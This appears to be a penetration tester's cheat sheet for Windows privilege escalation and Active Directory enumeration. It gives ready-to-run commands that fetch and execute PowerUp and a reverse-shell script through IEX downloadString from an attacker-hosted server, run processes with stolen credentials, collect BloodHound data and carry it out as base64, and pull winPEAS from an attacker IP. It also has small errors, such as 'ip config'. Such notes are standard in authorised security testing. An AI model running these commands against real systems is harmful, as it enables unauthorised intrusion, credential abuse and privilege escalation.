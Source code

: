 IP Information (Dual homed?): `ip config`

Established connections (Local Addr of 0.0.0.0 means its internal ports): `netstat -ano`

Upload PowerUp and run all checks:
```
# Local
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80

# Remote
IEX(New-Object Net.WebClient).downloadString('http://your-ip/PowerUp.ps1')
Invoke-AllChecks

# Run Command as another user with found creds
$SecPass = ConvertTo-SecureString '<FOUND PASSWORD>' -AsPlainText -Force
$cred = New-Object System.Managemenet.Automation.PSCredential('<FOUND USERNAME>',$SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://your-ip/reverseshell.ps1')" -Credential $cred

# Local: Host reverse shell and have netcat listener
```

Use bloodhound to extract AD data:
```
# Local
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe
sudo impacket-smbserver a .
# OR python3 -m http.server 80

## Remote
\\<insert your IP>\SharpHound.exe
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\bob\Downloads\2021123456789_BloodHound.zip")) # Use Full path
# Copy base64 data

# Local
echo -n "<INSERT BASE64 data>" | base64 -d > bloodhound-result.zip

# Local start bloodhound and upload zip (Must have it installed and setup see BloodHound official guidance)
neo4j console
bloodhound
```

WinPeas:
```
# Local
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
sudo impacket-smbserver a .
# OR python3 -m http.server 80

# Remote
\\<your ip>\winPEASany.exe
or
wget http://10.10.14.116:9000/winPEASany.exe
winPEASany.exe
```
